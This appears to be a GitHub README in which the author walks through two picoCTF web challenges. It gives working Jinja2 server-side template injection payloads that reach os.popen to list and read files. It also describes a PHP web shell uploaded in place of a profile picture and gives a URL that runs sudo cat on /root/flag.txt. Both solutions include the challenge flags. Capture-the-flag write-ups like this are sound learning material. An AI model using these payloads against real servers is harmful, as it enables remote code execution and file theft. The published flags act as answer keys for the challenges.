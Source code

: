 # Pico-CTF

CTF #1
The first CTF that I did on the pico site is the SSTI1 CTF.

The description of the ctf is:
I made a cool website where you can announce whatever you want! Try it out!
Additional details will be available after launching your challenge instance.
The first hint is:
Server Side Template Injection

The main bulk of this ctf is injecting commands into a notification line on a hosted website that has little security. 
Using Jinja2 there the command {{config.items()}} allows you to see configuration data, one thing revealed is ('SECRET_KEY', None),

The following remote injection will show globals within the directory of the server.
{{ self._TemplateReference__context.cycler.__init__.__globals__.os.popen('ls').read() }}

Using this shows a file called flagrequirements.txt

The following injection will read the previous file giving the flag.
{{ self._TemplateReference__context.cycler.__init__.__globals__.os.popen('cat flag').read() }}

The flag is: picoCTF{s4rv3r_s1d3_t3mp14t3_1nj3ct10n5_4r3_c001_424a1494}

CTF #2
The second CTF that I did is n0s4n1ty 1.

The description of the ctf is:
A developer has added profile picture upload functionality to a website. However, the implementation is flawed, and it presents an opportunity for you. Your mission, should you choose to accept it, is to navigate to the provided web page and locate the file upload area. Your ultimate goal is to find the hidden flag located in the /root directory.
Additional details will be available after launching your challenge instance.
The hints are:
File upload was not sanitized
Whenever you get a shell on a remote machine, check sudo -l

The main point of this ctf is inputing a php shell to the server which unloads a script that the hacker writes instead of a profile picture.
Using scripts you can check the permissions of the user and can find out that there is no password to access the root. 
The following url will lead to the final ctf as the root user:
http://standard-pizzas.picoctf.net:63914/uploads/shell.php?cmd=sudo cat /root/flag.txt

The flag is: picoCTF{wh47_c4n_u_d0_wPHP_f7424fc7

